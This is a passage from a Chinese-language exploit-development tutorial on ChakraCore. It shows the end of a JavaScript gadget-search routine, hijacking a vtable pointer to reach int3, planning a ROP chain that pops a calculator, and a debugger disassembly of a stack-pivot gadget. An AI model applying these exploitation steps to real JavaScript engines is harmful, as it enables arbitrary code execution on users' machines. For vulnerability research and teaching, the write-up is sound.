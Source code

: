 ```
        `}`
        if (j == bytes.length) `{`
            break;
        `}`
        idx++;
    `}`
    gadgets[name] = p + codeBase+ idx;
`}`);
return gadgets;
```

### <a class="reference-link" name="3.%20%E4%BF%AE%E6%94%B9%E8%99%9A%E8%A1%A8%E6%8C%87%E9%92%88%EF%BC%8C%E6%8C%87%E5%90%91%20gadgets"></a>3. 修改虚表指针，指向 gadgets

寻找 `int3` 的地址，将 obj 的虚表重定向到该地址，执行 int3 一般厂商即认可代码执行的有效性。

[![](https://p4.ssl.qhimg.com/t0152ea78d2c8674a4f.jpg)](https://p4.ssl.qhimg.com/t0152ea78d2c8674a4f.jpg)

但是我们还是希望通过努力，在 pc 上弹出一个计算器，这样更直观，也更加接近 pwn2own 的赛制要求。



## 弹出计算器

通过 rop 的方式，弹出计算器，首先需要控制 stack 指针(rsp)。rsp 的获得大致有两种途径：（1）修改 rsp 为可控的值（2）通过任意地址读写泄漏 rsp。 这里为了简单，我们采用第一种方式。至于第二种方式，有兴趣的小伙伴可以参考 pwnjs 项目（[https://github.com/theori-io/pwnjs）。后续如果时间允许，我也将第二种方式详细的实现放在博客上。](https://github.com/theori-io/pwnjs%EF%BC%89%E3%80%82%E5%90%8E%E7%BB%AD%E5%A6%82%E6%9E%9C%E6%97%B6%E9%97%B4%E5%85%81%E8%AE%B8%EF%BC%8C%E6%88%91%E4%B9%9F%E5%B0%86%E7%AC%AC%E4%BA%8C%E7%A7%8D%E6%96%B9%E5%BC%8F%E8%AF%A6%E7%BB%86%E7%9A%84%E5%AE%9E%E7%8E%B0%E6%94%BE%E5%9C%A8%E5%8D%9A%E5%AE%A2%E4%B8%8A%E3%80%82)<br>
通过修改虚表指针的方式，我们可以控制至少一个寄存器，这里的可控寄存器是 rax 。rax 是 fake 的虚表，虚表的第一项为 int3 的地址。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01959d7e3fde02cff6.jpg)

### <a class="reference-link" name="stack%20pivot"></a>stack pivot

理想的 gadget 是一些 rsp，rax 的直接交互， 如： xchg rsp, rax 或者 mov rsp，rax 或者 push rax; pop rsp 之类，但是这里我们并不能直接获得这类 gadget 。通过编写小工具，很容易定位到一些有用的同等效力的gadget， 如：

```
0:003&gt; u 0x294FC6 + chakracore
chakracore!::operator()+0x8a [e:a_work39slibruntimedebugprobecontainer.cpp @ 375]:
00007ffc`b1434fc6 50              push    rax
00007ffc`b1434fc7 08488b          or      byte ptr [rax-75h],cl
00007ffc`b1434fca 5c              pop     rsp
00007ffc`b1434fcb 2430            and     al,30h
00007ffc`b1434fcd 4883c420        add     rsp,20h
00007ffc`b1434fd1 5f              pop     rdi
00007ffc`b1434fd2 c3              ret

```

